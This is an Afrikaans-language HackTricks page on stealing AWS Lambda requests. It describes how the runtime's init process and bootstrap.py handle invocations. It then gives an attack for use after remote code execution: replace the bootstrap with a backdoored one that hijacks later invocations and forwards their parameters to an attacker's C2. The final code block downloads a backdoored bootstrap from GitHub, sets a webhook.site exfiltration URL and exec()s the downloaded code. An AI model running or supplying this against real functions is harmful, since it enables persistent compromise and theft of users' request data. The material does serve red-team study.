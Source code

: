 # AWS - Steel Lambda Aanvrae

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

## Lambda Vloei

<figure><img src="../../../../.gitbook/assets/image (152).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** is 'n proses buite die houer wat **aanroepings** na die **init**-proses **stuur**.
2. Die init-proses luister op poort **9001** en stel 'n paar interessante eindpunte bloot:
* **`/2018-06-01/runtime/invocation/next`** – kry die volgende aanroepinggebeurtenis
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – gee die hanteringsantwoord vir die aanroeping terug
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – gee 'n uitvoeringsfout terug
3. **bootstrap.py** het 'n lus wat aanroepings van die init-proses kry en roep die gebruikerskode aan om hulle te hanteer (**`/next`**).
4. Laastens stuur **bootstrap.py** die **antwoord** na init

Let daarop dat bootstrap die gebruikerskode as 'n module laai, sodat enige kode-uitvoering wat deur die gebruikerskode uitgevoer word, eintlik in hierdie proses plaasvind.

## Steel Lambda Aanvrae

Die doel van hierdie aanval is om die gebruikerskode 'n bose **`bootstrap.py`**-proses binne die **`bootstrap.py`**-proses te laat uitvoer wat die kwesbare aanvraag hanteer. Op hierdie manier sal die **bose bootstrap**-proses begin **praat met die init-proses** om die aanvrae te hanteer terwyl die **wettige** bootstrap **vasgevang** is terwyl die bose een loop, sodat dit nie vir aanvrae aan die init-proses sal vra nie.&#x20;

Dit is 'n eenvoudige taak om te bereik omdat die kode van die gebruiker deur die wettige **`bootstrap.py`**-proses uitgevoer word. Dus kan die aanvaller:

* **Stuur 'n valse resultaat van die huidige aanroeping na die init-proses**, sodat init dink die bootstrap-proses wag vir meer aanroepings.
* 'n aanvraag moet gestuur word na **`/${invoke-id}/response`**&#x20;
* Die aanroep-ID kan verkry word uit die stapel van die wettige **`bootstrap.py`**-proses deur die [**inspect**](https://docs.python.org/3/library/inspect.html) Python-module te gebruik (soos [voorgestel hier](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) of net weer daarna te vra by **`/2018-06-01/runtime/invocation/next`** (soos [voorgestel hier](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Voer 'n bose **`bootstrap.py`** uit wat die volgende aanroepings sal hanteer
* Vir stilheid doeleindes is dit moontlik om die lambda-aanroepingsparameters na 'n aanvaller se beheerde C2 te stuur en dan die aanvrae soos gewoonlik te hanteer.
* Vir hierdie aanval is dit genoeg om die oorspronklike kode van **`bootstrap.py`** van die stelsel of [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py) te kry, die bose kode by te voeg en dit van die huidige lambda-aanroeping uit te voer.

### Aanvalstappe

1. Vind 'n **RCE**-kwesbaarheid.
2. Genereer 'n **bose** **bootstrap** (bv. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Voer** die bose bootstrap uit.

Jy kan maklik hierdie aksies uitvoer deur te hardloop:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Vir meer inligting kyk na [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Verwysings

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)
